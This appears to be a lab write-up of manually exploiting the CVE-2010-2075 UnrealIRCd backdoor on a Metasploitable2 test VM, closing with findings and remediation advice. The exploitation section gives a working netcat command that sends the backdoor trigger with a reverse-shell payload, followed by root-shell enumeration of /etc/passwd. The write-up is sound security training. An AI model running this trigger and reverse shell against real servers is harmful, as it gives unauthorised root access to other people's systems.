


# 02 — UnrealIRCd 3.2.8.1 Backdoor Exploitation (CVE-2010-2075)

## Objective

Demonstrate manual exploitation of a backdoored IRC server without Metasploit, using netcat to trigger the backdoor and catch a reverse shell. Document the full attack chain from reconnaissance through post-exploitation.

---

## Environment

| Component | Details |
|---|---|
| Attacker | Kali Linux 2026.2 — 192.168.226.128 |
| Target | Metasploitable2 (Ubuntu 8.04) — 192.168.226.129 |
| Network | VMware VMnet1 (Host-only, isolated — no internet access) |
| Hypervisor | VMware Workstation Pro 26H1 |
| Tools Used | nmap, netcat |

> **Note:** This exploit was performed manually without Metasploit, demonstrating understanding of the underlying vulnerability mechanism rather than automated tooling.

---

## Reconnaissance

The target was previously scanned in Lab 01. Port 6667 was identified as running UnrealIRCd during the initial nmap scan.

**Relevant nmap output from Lab 01:**
```
6667/tcp open  irc  UnrealIRCd
```

To confirm the exact version, a targeted scan was run:

**Command:**
```bash
nmap -sV -p 6667 192.168.226.129
```

**Output:**
```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.Metasploitable.LAN
```

**Analysis:**

UnrealIRCd is an IRC server daemon. Version 3.2.8.1 was distributed with a backdoor inserted into its source code between November 2009 and June 2010. This version was identified as the target's IRC service and confirmed vulnerable via CVE-2010-2075.

---

## Vulnerability

**CVE-2010-2075 — UnrealIRCd 3.2.8.1 Backdoor**

In 2009, the UnrealIRCd 3.2.8.1 source package hosted on certain mirrors was replaced with a trojaned version containing a backdoor. The backdoor is triggered when a TCP connection to the IRC port sends a string beginning with `AB;` — anything following the semicolon is executed as a system command on the host with the privileges of the IRC server process.

- **CVSS Score:** 10.0 (Critical)
- **Attack Vector:** Network
- **Authentication Required:** None
- **Impact:** Complete system compromise (remote code execution as root)

Unlike CVE-2011-2523 (vsftpd), this backdoor requires no FTP handshake or protocol interaction — a raw TCP connection and the trigger string are sufficient.

---

## Exploitation

This exploit was performed manually using netcat, without Metasploit Framework.

**Step 1 — Set up a netcat listener on Kali:**

In a terminal on the attacker machine, open a listener on port 4444 to catch the incoming reverse shell:

```bash
nc -lvp 4444
```

Leave this running and open a second terminal for Step 2.

**Step 2 — Send the backdoor trigger:**

In a second terminal, send the `AB;` trigger string followed by a netcat reverse shell command to the IRC port:

```bash
echo "AB; nc -e /bin/bash 192.168.226.128 4444" | nc 192.168.226.129 6667
```

**Breakdown of the command:**
- `AB;` — the hardcoded backdoor trigger string
- `nc -e /bin/bash 192.168.226.128 4444` — instructs the target to connect back to the attacker on port 4444 with a bash shell attached
- `| nc 192.168.226.129 6667` — pipes the entire string as raw TCP to the IRC port

**IRC server response (expected):**
```
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irc.Metasploitable.LAN 451 AB; :You have not registered
```

The `451 You have not registered` error is the IRC server attempting to parse the input as an IRC command after the backdoor has already fired — this is normal and does not indicate failure.



---

## Post-Exploitation

Switching back to the netcat listener terminal, an incoming connection from the target was received and a root shell was established:

```
listening on [any] 4444 ...
connect to [192.168.226.128] from (UNKNOWN) [192.168.226.129] 48493
```

**Confirming access level:**

```bash
whoami
root

id
uid=0(root) gid=0(root)
```

**System information:**

```bash
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

**Enumerating local user accounts:**

```bash
cat /etc/passwd | grep -v nologin | grep -v false
```

**Output:**
```
root:x:0:0:root:/root:/bin/bash
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
```

The shell was running as `uid=0(root)` — full administrative access with no privilege escalation required.



---

## Comparison with Lab 01

| | Lab 01 — VSFTPd | Lab 02 — UnrealIRCd |
|---|---|---|
| CVE | CVE-2011-2523 | CVE-2010-2075 |
| Port | 21 (FTP) | 6667 (IRC) |
| Trigger | `:)` in username | `AB;` prefix in TCP stream |
| Method | Metasploit Framework | Manual — netcat only |
| Shell type | Meterpreter | Raw bash reverse shell |
| Privilege | root | root |

Both vulnerabilities share the same root cause: a backdoor inserted into a legitimate open source project's distributed source package. The manual approach used in this lab demonstrates understanding of the underlying mechanism rather than reliance on automated exploitation tools.

---

## Findings

| Finding | Severity | Detail |
|---|---|---|
| UnrealIRCd 3.2.8.1 backdoor | Critical | Unauthenticated remote root access via CVE-2010-2075 |
| IRC service exposed | Medium | IRC server running with no business justification on this host |
| Process running as root | High | IRC daemon running with root privileges — should run as a dedicated low-privilege account |

---

## Remediation

1. **Remove or replace UnrealIRCd 3.2.8.1 immediately** — upgrade to a current verified version. Verify SHA checksums against the official project site before deploying any source package.
2. **Verify source integrity before deployment** — both this and the vsftpd backdoor were introduced via compromised source distributions. Cryptographic verification of downloaded packages is essential.
3. **Run services under least-privilege accounts** — the IRC daemon should not run as root. A dedicated service account with minimal permissions limits the blast radius of any future compromise.
4. **Disable unnecessary services** — if IRC is not required for business function, disable and remove it entirely to eliminate the attack surface.
5. **Implement network segmentation** — IRC traffic (port 6667) should be firewalled from untrusted networks. No external access to internal IRC services should be permitted.

---

## References

- [CVE-2010-2075 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)
- [UnrealIRCd Security Advisory](https://www.unrealircd.org/txt/unrealsecadvisory.20100612.txt)
- [Metasploitable2 Documentation](https://docs.rapid7.com/metasploit/metasploitable-2/)
